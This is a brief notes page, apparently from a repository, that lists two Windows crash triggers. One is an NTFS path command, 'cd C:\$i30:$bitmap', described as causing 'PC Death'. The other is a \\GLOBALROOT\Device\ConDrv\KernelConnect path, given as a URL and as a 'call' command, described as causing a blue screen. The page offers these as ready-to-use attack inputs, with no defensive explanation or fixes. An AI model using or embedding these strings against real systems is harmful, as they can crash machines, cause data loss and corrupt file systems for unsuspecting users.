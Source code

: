1. Bug in NTFS

Result:
PC Death

Codes:
CMD - cd C:\$i30:$bitmap

2. BSoD Vulnerability

Result:
BSoD

Codes:
URL - \\GLOBALROOT\Device\ConDrv\KernelConnect
CMD - call \\GLOBALROOT\Device\ConDrv\KernelConnect
